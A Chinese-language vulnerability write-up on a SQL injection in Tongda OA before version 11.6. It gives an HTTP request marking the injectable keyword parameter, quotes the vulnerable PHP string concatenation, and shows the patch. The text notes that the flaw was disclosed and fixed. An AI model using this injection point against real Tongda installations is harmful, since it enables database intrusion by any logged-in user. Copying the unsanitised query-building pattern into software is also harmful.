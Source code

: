 ```yaml
---
layout: post
title:  "通达OA11.5SQL注入分析"
categories: 漏洞分析
tags: 代码审计 TongDaOA
author: 0e0w
---
```


* content
{:toc}
这是一篇关于通达OA存在SQL注入漏洞的分析文章。由于作者能力有限，文中难免会出现一些错误，请谅解。本文会不定期更新，最近一次更新时间为2020年6月2日。鉴于凡世之忙碌，下一次更新也许是明天，也许是下辈子。
> 关于通达OA的更多信息，请查看通达OA[官网](http://www.tongda2000.com/)。

## 01-漏洞概述

这个漏洞是4月份的时候提交给厂商的，之后通达OA更新到了11.5版本，但是发现11.5版本并未修复此漏洞。直到2020-05-08日更新到11.6版的时候才修复此漏洞。为什么11.5版本未修复？大概是是因为4月中旬的时候出现了通达OA任意账号登录漏洞，厂商便紧急发布了任意账号登录漏洞的补丁包。

通过此也说明了这个SQL注入漏洞技术含量影响性较低。但既然漏洞已修复，便把其中的一些细节公布出来吧。低版本通达OA不止一处SQL注入，这篇文章暂时只发布其中的一处注入点。

## 02-漏洞分析

- 影响版本：< 通达OA11.6
- 发现时间：2020-04-01

### 一、payload

先上payload。测试发现其他的参数keyword、min_people、max_people存在SQL注入漏洞。需要特别说明的是，本漏洞不需要管理员账号，普通用户可以登录系统即可。

```
POST /general/appbuilder/web/meeting/meetingapply/getmeetingapplyinfo HTTP/1.1
Host: 192.168.220.129
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169
Content-Length: 183
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Cookie: USER_NAME_COOKIE=lina; SID_1=3b9b2a17; SID_12=6114b1ec; SID_65=dba4163e; PHPSESSID=e62i1gqidh35cb4pfbn3eatn84; OA_USER_ID=65; creat_work=new
Origin: http://192.168.220.129
Referer: http://192.168.220.129/general/meeting/myapply/applyMeeting/select1.php
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

date=2020-04-01&end_time=&equipment_ids=&keyword=*&max_people=&min_people=&start_time=
```

### 二、代码审计

- \general\appbuilder\modules\meeting\models\Meeting.php:1324行。此处的$data["keyword"]未处理便赋值给$keyword。

  ```php
  		$pageSize = modules\meeting\models\intval($data["pageSize"]);
  		$type = $data["type"];
  		$keyword = $data["keyword"];
  
  		if ($keyword != "") {
  			$key_where = array("like", "M_NAME", "$keyword");
  		}
  ```

- \general\appbuilder\modules\meeting\models\Meeting.php:4313行。此处的keyword直接拼接到了SQL语句中，导致了漏洞的触发。

  ```php
  		$where = " 1=1";
  		if (isset($mr_id) && !empty($mr_id)) {
  			$where .= " and MR_ID = '$mr_id'";
  		}
  
  		if (isset($keyword) && !empty($keyword)) {
  			$where .= " and MR_NAME like '%" . $keyword . "%'";
  		}
  
  		if (isset($min_people) && !empty($min_people)) {
  			$where .= " and MR_CAPACITY >= $min_people";
  		}
  
  		if (isset($max_people) && !empty($max_people)) {
  			$where .= " and MR_CAPACITY <= $max_people";
  		}
  
  		$sql1 = "SELECT * from Meeting_room where (TO_ID='ALL_DEPT' or find_in_set('$login_dept_id',TO_ID) or find_in_set('$login_user_id',SECRET_TO_ID) or find_in_set('$login_priv_id',PRIV_ID)) and USE_FLAG = '1' and" . $where;
  		$cur = self::getDb()->createCommand($sql1)->queryAll();
  ```

### 三、漏洞修复

修复方式也很简单。只需要进行如下的替换即可：

```php
$keyword = $data["keyword"];
```

替换为：

```php
$keyword = modules\meeting\models\intval($data["keyword"]);
```

测试发现，11.6版本也确实是这样修复的。

## 03-参考链接

- https://www.0e0w.com
